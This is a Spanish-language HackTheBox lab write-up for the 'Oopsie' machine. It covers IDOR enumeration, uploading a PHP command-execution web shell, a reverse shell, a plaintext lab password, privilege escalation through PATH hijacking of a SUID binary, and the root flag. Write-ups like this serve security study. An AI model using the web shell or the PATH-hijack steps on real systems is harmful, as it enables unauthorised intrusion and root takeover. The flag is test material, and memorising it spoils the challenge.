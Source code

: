# Oopsie

Plataforma: HackTheBox
OS: Linux
Level: Very Easy
Status: Done
Complete: Yes
EJPT: yes
Created time: 24 de diciembre de 2024 16:01
IP: 10.129.105.138

## Recopilación de información

<aside>
💡 Reconocimiento inicial

</aside>

### **Escaneo de puertos**

Comenzamos con un escaneo para identificar que puertos están abiertos.

---

```bash
sudo -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.105.138 -oG allports
```

![image.png](<imagenes/image 46.png>)

### **Enumeración de servicios**

Una vez listado los puertos accesibles, procederemos a realizar la enumeración de servicios para su posterior identificación de vulnerabilidades.

---

```bash
sudo nmap -p22,80 -sCV 10.129.105.138 -oN targeted
```

![image.png](<imagenes/image 47.png>)

- **Identificación de vulnerabilidades**
    - 22 SSH: Encotramos clave SSH RSA
    
    ![image.png](<imagenes/image 48.png>)
    
    - 80
    
    ```bash
    whatweb 10.129.105.138
    ```
    

![image.png](<imagenes/image 49.png>)

```bash
feroxbuster --url http://10.129.105.138

```

![image.png](<imagenes/image 50.png>)

Encontramos ruta : /cdn-cgi/login

![image.png](<imagenes/image 51.png>)

Al no disponer de credenciales, accedmos como “Guest”

Enumeramos la web :

Account con ID = 2

![image.png](<imagenes/image 52.png>)

Cambiamos el ID a 1 y encontramos usuario admin con ID: 34322

Lo mismo para las otras secciones. Encontramos clients y al cambiar el ID sacamos usuario

Mail : john@tafcz.co.uk

Name: Tafcz

![image.png](<imagenes/image 53.png>)

## Explotación

<aside>
💡

</aside>

### Explotación 1

Mediante Burpsuite, interceptamos la peticion y cambiamos el id por el 34322 y admin , para acceder al panel “Upload” 

![image.png](<imagenes/image 54.png>)

![image.png](<imagenes/image 55.png>)

Probamos a subir el una shell para RCE :

```bash
<?php echo "<pre>" . system($_GET['cmd']) . "</pre>"; ?>
```

![image.png](<imagenes/image 56.png>)

Tratamos de acceder:

![image.png](<imagenes/image 57.png>)

Tenemos ejecucción remota de comandos

Tratamos de ejecutar una revershell:

Subimos revershell de pentestmonkey y obtenemos revershell 

![image.png](<imagenes/image 58.png>)

### 

## Explotación posterior

<aside>
💡 Escalamos privilegios desde www-data

</aside>

### Escalada de privilegios

Una vez accedemos, enumeramos el sistema y encontramos como migrar a usuario robert en db.php

![image.png](<imagenes/image 59.png>)

User: robert

Password: M3g4C0rpUs3r!

![image.png](<imagenes/image 60.png>)

Buscamos binarios SUID. 

No podemos ejecutar sudo -l

Hacemos

```bash
find / -perm -u=s -type f 2>/dev/null

/bin/fusermount
/bin/umount
/bin/mount
/bin/ping
/bin/su
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/bin/newuidmap
/usr/bin/passwd
/usr/bin/at
/usr/bin/bugtracker
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/traceroute6.iputils
/usr/bin/newgidmap
/usr/bin/gpasswd
/usr/bin/sudo
```

De los binarios que aparece, investigamos bugtracker

```bash
bugtracker

robert@oopsie:~$ bugtracker     

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 23453
---------------

cat: /root/reports/23453: No such file or directory
```

Haciendo un strings del binario, vemos que ejecuta cat con ruta relativa:

```bash
------------------
: EV Bug Tracker :
------------------
Provide Bug ID: 
---------------
cat /root/reports/
;*3$"
GCC: (Ubuntu 7.4.0-1ubuntu1~18.04.1) 7.4.0
crtstuff.c
deregister_tm_clones
__do_global_dtors_aux
```

Provamos a hacer un Path hijacking para CAT:

```bash
robert@oopsie:/usr/bin$ cd /home

robert@oopsie:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games

robert@oopsie:~$ export PATH=.:$PATH
robert@oopsie:~$ echo $PATH
.:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
robert@oopsie:~$ echo 'bash -p' > cat
robert@oopsie:~$ chmod +x cat
robert@oopsie:~$ ls -l
total 8
-rwxrwxr-x 1 robert robert  8 Dec 24 20:44 cat
-rw-r--r-- 1 robert robert 33 Feb 25  2020 user.txt

robert@oopsie:~$ bugtracker 

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: wer
---------------

root@oopsie:~# whoami
root
```

Buscamos la flag :

```bash
root@oopsie:/# cd root
root@oopsie:/root# ls
reports  root.txt
root@oopsie:/root# cat root.txt 
af13b0bee69f8a877c3faf667f7beacf
```

## Conclusión

<aside>
💡 Maquina facil. Para recordar buscar binarios SUID a mano si no funciona sudo -l y tener presente siempre el acceso a binarios con rutas relativas

</aside>